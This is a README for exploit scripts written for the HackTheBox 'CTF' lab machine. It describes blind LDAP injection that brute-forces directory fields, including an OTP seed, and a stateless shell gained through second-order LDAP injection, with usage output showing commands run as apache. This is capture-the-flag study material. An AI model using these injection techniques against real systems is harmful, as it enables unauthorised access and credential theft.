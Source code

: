 ## Challenge

[CTF](https://www.hackthebox.eu/home/machines/profile/172) from Hackthebox.eu

## brute_stuff.py

### Description

I can use a blind ldap injection to brute force various fields in the ldap database.

### Reference

Originally published in blog posts: [https://0xdf.gitlab.io/2019/07/20/htb-ctf.html#leak-otp-seed](https://0xdf.gitlab.io/2019/07/20/htb-ctf.html#leak-otp-seed).

### Usage

```
root@kali# ./brute_stuff.py all
Bruting Username
ldapuser
Bruting mail
ldapuser@ctf.htb
Bruting pager
285449490011357156531651545652335570713167411445727140604172141456711102716717000
Bruting userPassword
```

## ctf-shell.py

### Description

The web page allows for commands to be run, but I must log in with a name that allows a second-order ldap injection, and then must use an extracted seed to calcuate the current OTP, taking into account time differences between my box and the target. It would be possible (and probably fun) to create a stateful shell using the same technique I used in [Stratosphere](https://0xdf.gitlab.io/2018/09/01/htb-stratosphere.html#building-a-shell). That is left as an exertize for the reader. This is a stateless shell.

### Reference

Originally published in blog posts as beyond root: [https://0xdf.gitlab.io/2019/07/20/htb-ctf.html#shell-as-apache-1](https://0xdf.gitlab.io/2019/07/20/htb-ctf.html#shell-as-apache-1).

### Usage

```
root@kali:~/hackthebox/ctf-10.10.10.122# ./ctf-shell.py 
CTF> id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
CTF> pwd
/var/www/html
```

